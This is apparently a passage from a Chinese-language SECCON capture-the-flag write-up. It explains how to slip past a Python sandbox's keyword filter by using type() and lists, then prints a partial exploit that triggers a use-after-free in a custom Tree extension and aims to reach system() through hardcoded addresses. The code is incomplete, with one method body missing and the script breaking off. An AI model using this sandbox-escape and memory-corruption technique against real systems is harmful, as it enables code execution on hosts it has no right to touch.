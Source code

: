 

不過因為 `run.py` 會禁止一些 keyword 的使用，像是上面 payload 使用到的 `global` 以及 `class`，不過：

1. `global` 可以用 `list` 取代，`list` 本身即是 global mutable struct
2. `class` 可以用 `type()` 來新增，用法即為 `('Name', (), {'key': value})`。而 `type()` 可以用 `'str'.__class__.__.class__` 取得 

最終將一些 built-in functions 換成 `seccon_util` 所提供的即可，最終的 exploit 如下：

```python
from seccon_tree import Tree
import os

seccon_print = print
seccon_bytes = bytes
seccon_id = id
seccon_range = range
seccon_hex = hex
seccon_bytearray = bytearray

class seccon_util(object):
    def Print(self, *l):
        seccon_print(*l)
    def Bytes(self, o):
        return seccon_bytes(o)
    def Id(self, o):
        return seccon_id(o)
    def Range(self, *l):
        return seccon_range(*l)
    def Hex(self, o):
        return seccon_hex(o)
    def Bytearray(self, o):

for key in dir(__builtins__):
    del __builtins__.__dict__[key]
del __builtins__


"""    my code   """
root = Tree("meow")
freed = [None]

def p64(x):
    return x.to_bytes(8, 'little')

def create_UAF(self):
    freed[0] = root.get_child_left()

"""
'__build_class__' is not defined, but you can use 'type' to create class:
help(type)
class type(object)
 |  type(object_or_name, bases, dict)
 |  type(object) -> the object's type
 |  type(name, bases, dict) -> a new type
...
"""
Pwn = 'a'.__class__.__class__('Pwn', (), {'__del__': create_UAF})

debug = True
if debug == True:
    plt_system = 0x41da50
    ptr_PyType_Type = 0x7475e0
else:
    plt_system = 0x4214f0
```